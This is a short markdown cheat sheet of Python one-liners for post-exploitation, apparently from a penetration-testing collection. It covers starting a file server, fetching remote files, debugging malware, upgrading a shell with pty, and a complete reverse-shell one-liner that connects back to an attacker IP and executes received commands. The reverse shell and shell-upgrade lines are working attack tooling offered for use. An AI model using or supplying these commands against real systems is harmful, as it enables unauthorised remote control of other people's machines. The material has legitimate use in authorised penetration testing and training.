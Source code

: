 # Cool Python Tricks

## Starting a quick web server to serve some files (useful for post exploitation)

### In Python 2.x
`python -m SimpleHTTPServer 1337`

### In Python 3.x
`python3 -m http.server 1337`

----
## Pythonic Web Client

### In Python 2.x
`python -c 'import urllib2; print urllib2.urlopen("http://h4cker.org/web").read()' | tee /tmp/file.html`
### In Python 3.x
`python3 -c 'import urllib.request; urllib.request.urlretrieve ("http://h4cker.org/web","/tmp/h4cker.html")'`

----
## Python Debugger
This imports a Python file and runs the debugger automatically. This is useful for debugging Python-based malware and for post-exploitation.

`python -m pdb <some_python_file>`

Refer to this [Python Debugger cheatsheet](https://kapeli.com/cheat_sheets/Python_Debugger.docset/Contents/Resources/Documents/index) if you are not familiar with the Python Debugger.

----

## Shell to Terminal
This is useful after exploitation and getting a shell. It allows you to use Linux commands that require a terminal session (e.g., su, sudo, vi, etc.)

`python -c 'import pty; pty.spawn("/bin/bash")'`

----

## Using Python to do a Reverse Shell

You put your IP address (instead of 10.1.1.1) and the port (instead of 13337) below:

`python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('10.1.1.1',1337))\n while 1: proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"`
